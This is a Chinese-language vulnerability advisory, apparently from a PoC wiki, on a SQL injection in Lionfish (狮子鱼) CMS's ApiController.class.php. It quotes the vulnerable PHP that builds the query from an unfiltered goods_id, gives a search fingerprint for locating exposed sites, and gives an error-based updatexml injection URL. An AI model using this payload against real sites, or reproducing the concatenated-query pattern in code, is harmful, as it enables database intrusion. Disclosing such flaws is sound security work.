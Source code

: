 # 狮子鱼CMS ApiController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php  参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/szy-1-20220314000311259.png)



存在漏洞的文件为 **ApiController.class.php**  , 关键位置为



```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/ http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```



![img](/assets/PeiQi-Wiki/img/szy-8.png)



漏洞测试为



```plain
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```



![img](/assets/PeiQi-Wiki/img/szy-9.png)
